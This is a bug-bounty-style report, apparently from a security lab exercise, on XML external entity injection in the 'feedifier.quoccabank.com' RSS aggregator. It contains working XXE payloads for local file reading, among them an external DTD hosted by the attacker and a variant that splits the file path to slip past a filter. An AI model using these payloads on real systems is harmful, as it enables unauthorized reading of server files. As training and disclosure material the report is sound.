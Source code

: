 # XML external entities vulnerability in 'feedifier.quoccabank.com' leading to local file inclusion

## Severity : High

## Report summary:

XXE vulnerability in the RSS aggregator functionality on  endpoints:

- 'https://v1.feedifier.quoccabank.com' 
- 'https://v2.feedifier.quoccabank.com'
- 'https://v3.feedifier.quoccabank.com'

leads to there being a local file inclusion vulnerability on all three of these end points.

## Steps to reproduce

Host your own website to serve your own malicious RSS files.

- **important note**
  - host the pages with a .html extension

Navigate to either v1, v2 or v3 versions for example "https://v1.feedifier.quoccabank.com"

Paste in the address to your external website which contains the malicious XML document.

![image-20210709172612058](./images/feed1.png)

The output should look something like this:

![image-20210709175224832](./images/feed2.png)

## Proof of concept 

### v1.feedifier

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file://<file_path>" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
    <title>The Blog</title>
    <link>http://example.com/</link>
    <description>A blog about things</description>
    <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
    <item>
        <title>&xxe;</title>
        <link>https://google.com</link>
        <description>asdasd</description>
        <author>author@example.com</author>
        <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
    </item>
</channel>
</rss>
```



### v2.feedifier

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title[<!ENTITY % load SYSTEM "<insert website here>/<external_dtd_path>.html"> %load;%bundle;] PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd" >
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
    <title>The Blog</title>
    <link>http://example.com/</link>
    <description>A blog about things</description>
    <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
    <item>
        <title>&atak;</title>
        <link>https://google.com</link>
        <description>asdasd</description>
        <author>author@example.com</author>
        <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
    </item>
</channel>
</rss>
```

External dtd file

```html
<!ENTITY % beg "<![CDATA[">
<!ENTITY % payload SYSTEM "file://<insert file path>">
<!ENTITY % end "]]>">
<!ENTITY atak "%beg;%payload;%end;">
```

 

### v3.feedifier

v3's exploit is basically identical to v2 with some changes in the dtd file

```html
<!ENTITY % beg "<![CDATA[">
<!ENTITY % end "]]>">

<!ENTITY % a "fi">
<!ENTITY % b "le:///fla">
<!ENTITY % c "g_d0642f00f99dbc509cf0551ddb81527d" >
<!ENTITY % d "%a;%b;%c;">

<!ENTITY % bundle "<!ENTITY atak '%beg;%d;%end;'>">
```


